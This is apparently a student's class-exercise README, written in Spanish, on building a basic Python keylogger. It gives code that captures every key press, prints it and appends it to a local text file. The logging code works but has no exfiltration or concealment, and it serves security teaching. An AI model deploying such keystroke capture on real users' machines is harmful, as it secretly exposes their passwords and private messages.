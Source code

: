 # SI_T5_P1

# Práctica keylogger

Lo primero que hay que hacer es poner el siguiente comando para importar la librería

 ```python
import keyboard
 ```

Ahora hay que crear una función que te registre y te imprima las teclas

1. Creo la función llamada "registrar_pulsaciones" con el parámetro "event"
2. A continuación, creo la variable tecla que me guarde en una cadena las teclas que vaya pulsando con el "event.name"
3. Y por último hago que se imrpima las teclas que pulso con "print"

 ```python
def registrar_pulsaciones(event):
    tecla = str(event.name)
    print(tecla)
 ```
    
Debajo de la función creo un if para que me sustituya la palabra 'space' por un espacio

 ```python
if tecla == "space":
        tecla = " "
 ```

Una vez que ya nos está registrando las pulsacines tenemos que pasarlo a un txt para que se guarde.

 ```python
with open("registro.txt", 'a') as log_file:
        log_file.write(tecla)
 ```

Por último llamo a la función para que se ejecute y le digo que se mentenga funcionando el proceso con el "keyboard.wait()"

 ```python
keyboard.on_press(registrar_pulsaciones) 
keyboard.wait()
 ```